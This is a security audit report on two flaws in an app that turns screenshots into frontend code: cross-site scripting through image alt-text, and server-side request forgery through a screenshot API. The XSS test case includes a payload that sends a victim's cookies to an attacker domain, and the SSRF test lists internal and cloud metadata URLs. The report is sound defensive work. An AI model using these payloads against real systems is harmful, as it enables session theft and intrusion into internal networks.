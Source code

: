 # Final Valid High/Critical Severity Vulnerabilities List:

## 1. Cross-Site Scripting (XSS) via Image Alt-Text Injection

### Description:
1. An attacker provides a malicious screenshot containing an alt-text metadata field embedded with malicious JavaScript code.
2. The backend application processes uploaded images using AI and directly includes user-supplied alt-text into generated HTML or React frontend components without sufficient escaping or input validation.
3. The frontend receives and renders this generated code directly, resulting in the execution of the malicious JavaScript payload when viewed by other users.

### Impact:
- Execution of arbitrary JavaScript code within the context of the victim's browser.
- Enables attacks such as session hijacking, stealing sensitive user information, or defacing the application UI.

### Vulnerability Rank:
- High

### Currently Implemented Mitigations:
- Predominant use of placeholder images and AI-generated descriptions, offering limited incidental protection.

### Missing Mitigations:
- Explicit sanitization routines for user-supplied alt-text before embedding it in the frontend.
- Lacking character escaping or HTML encoding for user-provided content.
- Absence of a strict Content Security Policy (CSP).

### Preconditions:
- Attacker requires the ability to upload a screenshot containing malicious alt-text metadata.
- AI-based backend must directly embed attacker-provided alt-text into frontend HTML without validation or encoding.

### Source Code Analysis:
1. Backend file: `backend/image_generation/core.py` processes image attributes without sanitization:
    ```python
    for img in images:
        if not img["src"].startswith("https://placehold.co"):
            mapping[img["alt"]] = img["src"]
    ```
   This code directly accepts user-provided input without validating or escaping potentially malicious alt-text.

2. Alt-text subsequently propagates into dynamically generated code by backend services (`backend/llm.py`) without proper sanitization.

3. Generated HTML transmitted directly to frontend interfaces via API endpoints (`/generate-code`) lacking input validation.

### Security Test Case:
1. Create and upload a screenshot with malicious alt-text payload:
    ```html
    "><img src=x onerror=document.location='http://attacker-domain.com/?'+document.cookie>
    ```
2. Initiate frontend code generation involving malicious alt-text.
3. Backend processes malicious alt-text without sanitization, thereby embedding it unsafely into generated frontend code.
4. Upon frontend rendering, malicious JavaScript executes, sending victim's browser cookies to attacker-controlled domain.

---

## 2. Insufficient Validation of Video/Screenshot Processing Inputs Leading to Potential Injection and SSRF

### Description:
1. Backend accepts URLs and directly uses them to invoke the `screenshotone.com` API with no rigorous URL validation or restrictions.
2. Attacker submits malicious URLs, including internal network resources or localhost addresses.
3. External screenshot service (`screenshotone.com`) attempts to process these internal URLs, potentially granting attackers unauthorized insights into internal network resources.

### Impact:
- Unauthorized access or exposure of internal or protected resources.
- Potential leak of sensitive or confidential internal data to external parties.
- Exploitation of internal network resources through SSRF (Server-Side Request Forgery).

### Vulnerability Rank:
- High

### Currently Implemented Mitigations:
- None observed. The screenshot API client (`backend/routes/screenshot.py`) performs no URL validation or filtering.

### Missing Mitigations:
- No validation, filtering, or sanitization of user-supplied URLs.
- Missing checks against internal or reserved IP addresses to prevent SSRF attacks.
- Absence of URL validation mechanisms restricting access to sensitive internal resources.

### Preconditions:
- Attacker gains access to the public API endpoint facilitating screenshot URL submissions.

### Source Code Analysis:
The vulnerability occurs in the `backend/routes/screenshot.py` file:
```python
async def capture_screenshot(target_url: str, api_key: str, device: str = "desktop") -> bytes:
    api_base_url = "https://api.screenshotone.com/take"

    params = {
        "access_key": api_key,
        "url": target_url,  # no validation or filtering; attacker-controlled
        ...
    }
    async with httpx.AsyncClient(timeout=60) as client:
        response = await client.get(api_base_url, params=params)
```

**Analysis Explanation:**
- User-submitted input (`target_url`) is directly utilized without validation as the URL parameter within HTTP GET requests sent to the external screenshot-taking service `screenshotone.com`.
- Missing validation enables attacker submission of internal network URLs, which `screenshotone.com` may attempt to access, effectively bypassing internal restrictions and exposing sensitive data or internal resources.

### Security Test Case:
1. Access the publicly exposed screenshot API endpoint.
2. Submit URLs targeting internal endpoints or sensitive internal resources such as:
    - Localhost services: `http://localhost:<port>`
    - Cloud or container metadata endpoints: `http://169.254.169.254/latest/meta-data`
    - Internal private IP addresses: `http://10.x.x.x` or local IP ranges (`http://192.168.x.x`)
3. Observe if the response includes screenshots or sensitive information retrieved from the internal environment via the external provided screenshot service.
4. Verify whether internal resources and configuration data are unintentionally exposed.

---

## Recommendations for Mitigation:

### For Cross-Site Scripting (XSS) via Image Alt-Text Injection:
- **Explicit Input Sanitization:**
  Implement robust backend sanitization libraries like **Bleach** to encode or escape all user-provided text before rendering.
- **Strict CSP Implementation:**
  Introduce and enforce a strict Content Security Policy to restrict the execution of potentially malicious scripts.

### For Insufficient Validation of Video/Screenshot Processing Inputs (Potential SSRF):
- **URL Restriction and Validation:**
  Introduce strict URL validation logic to reject URLs leading to internal network addresses, localhost, metadata endpoints, or reserved IP ranges.
- **IP Address Filtering:**
  Implement a deny list or allow list approach for external requests made by backend components towards external screenshot APIs, blocking dangerous or internal exploration attempts.
- **Network Level Restrictions:**
  Consider deploying firewall rules or isolated network segments to prevent backend applications or external services from accessing internal resources under normal operations.
